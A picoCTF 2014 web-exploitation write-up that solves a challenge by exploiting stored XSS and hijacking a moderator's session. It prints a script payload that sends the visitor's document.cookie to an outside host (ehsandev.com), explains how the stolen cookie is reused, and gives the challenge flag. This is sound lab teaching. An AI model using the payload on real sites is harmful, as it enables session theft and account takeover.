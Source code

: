 ## secure_page_service - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:28:12




### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulnerabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly referred to as XSS) is a type of web exploit which involves an attacker being able to inject client side scripting into pages viewable by other users. First register an account and log in. Then make a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1>. From this it is clear that secure_page_service is not filtering any html we put into a page and instead is interpreting it as normal, an XSS vulnerability! But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting it. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we know what to do once we have the moderator cookie, but how do we get it?

We can form a page such as
```html
<script>
location.href=("http://ehsandev.com/pico.php?c="+document.cookie)
</script>
```
When a user browses to this page they are redirected to a page on a server (in this case ehsandev.com) with their cookies in the url. The attacker can then simply view the log of the request made to the servers and copy out the session id. In this example, when we hit the report button the moderator would be redirected to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the logs of this site. Finally, we have to manually set the admin cookie to our `PHPSESSID` cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
    wow_cross_site_scripting_is_such_web

